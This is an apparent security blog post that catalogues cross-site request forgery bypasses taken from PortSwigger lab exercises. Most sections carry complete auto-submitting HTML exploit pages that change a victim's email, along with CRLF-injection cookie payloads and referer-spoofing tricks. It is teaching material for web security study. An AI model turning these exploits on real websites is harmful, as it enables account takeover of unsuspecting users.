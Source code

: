 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web Security, Payloads ]
---
```

CSRF attacks (Cross-site request forgery) is a type of malicious exploit that aims to perform unauthorized operations that will be executed by a user that the website trusts.

# Table of Contents
1. [CSRF vulnerability without defenses](#CSRFwithoutDefenses)
2. [Token validation depends on request method](#CSRFinGET)
3. [Token validation depends on token presence](#CSRFonPresence)
4. [The CSRF token is not bound to the user's session](#CSRFnotBound)<br>
   4.1. [Same token between users](#SametokenUsers)<br>
   4.2. [Token not linked to the session](#CSRFnotBoundSession)
5. [The token is duplicated in the cookie](#TokenDuplicatedCookie)
6. [CSRF without referrer](#CSRFwithoutReferrer)
7. [Broken Referer Validation](#CSRFRefererBroken)

---

### CSRF vulnerability without defenses <a name="CSRFwithoutDefenses"></a>
**CSRF basic mail**<br>
It makes a request to the endpoint that changes the email and javascript confirms the request, which will change the mail just by visiting the page.

Code from 
`https://web-attacker.com/malicioso.html`

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF where token validation depends on request method <a name="CSRFinGET"></a>
Depending on the request method, it can be done with GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@gmail.com"/>
```
---
### CSRF where token validation depends on the presence of the token <a name="CSRFonPresence"></a>
It does not verify the CSRF token, it is removed and bypassed.

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF token is not bound to user session <a name="CSRFnotBound"></a>
**Using the same token in both users**<br>
We can use the same CSRF Token in one user than in another, thanks to the fact that the token is not linked to the user's session <a name="SametokenUsers"></a><br>
My token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ works for other users too.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**The CSRF token is not bound to the session** <a name="CSRFnotBoundSession"></a><br>
So the same csrf token and the same csrf key could be used in one account as in another to change the email
We can use CRLF Injection (If exists) to set the key in the CSRF payload.
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@gmail.com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com/?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### The CSRF token is simply duplicated into a cookie <a name="TokenDuplicatedCookie"></a>
The token is validated in the cookie, we can make the user create his own csrf token which we indicate.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Since the token was validated in the cookie, we can send the request to change the mail.
Again we can use CRLF Intection to indicate the token

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@gmail.com">
            <input type="hidden" name="csrf" value="31415926535897932384626433832795028841971">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=31415926535897932384626433832795028841971" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### CSRF without referrer <a name="CSRFwithoutReferrer"></a>
We indicate that the Referer does not exist in the CSRF exploit using the meta tag.

Payload:
```html
<meta name="referrer" content="no-referrer">
```
Exploit:
```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@gmail.com" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```


---
### CSRF with broken Referer validation <a name="CSRFRefererBroken"></a>

The page validates the referrer when we want to change mail, **it is determined if the referrer includes the domain of the origin page.**
By modifying the referer with javascript we can evade this validation and be able to exploit the CSRF.

**Modify the Referer:**
 - Using this javascript function `history.pushState()` that adds an entry to the browser's session history stack.
```html
<script>history.pushState("", "", "/?vulnerable-web.com")</script>
```
- Referer validation accepts any header that contains the expected domain somewhere in the chain
```html
Referer: https://web-attacker.com/?vulnerable-web.com
```

**Referrer-Policy**
- Many browsers now remove the query string from the Referrer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request.
- We have to add in the header "Referrer-Policy: unsafe-url"

Payload:
```html
<meta name="referrer" content="unsafe-url" />
```

Exploit:
```html
<html>
   <head>
      <meta name="referrer" content="unsafe-url" />
   </head>
   <body>
      <script>
         history.pushState("", "", "/?vulnerable-web.com")  
      </script>
      <form action="https://vulnerable-web.com/email/change" method="POST">
         <input type="hidden" name="email" value="pwned@gmail.com" />
         <input type="submit" value="Submit request" />
      </form>
      <script>document.forms[0].submit();</script>
   </body>
</html>
```

---

- Source Labs: [Portswigger Labs](https://portswigger.net/web-security)
- Credits Image: [cobalt.io](https://www.cobalt.io)
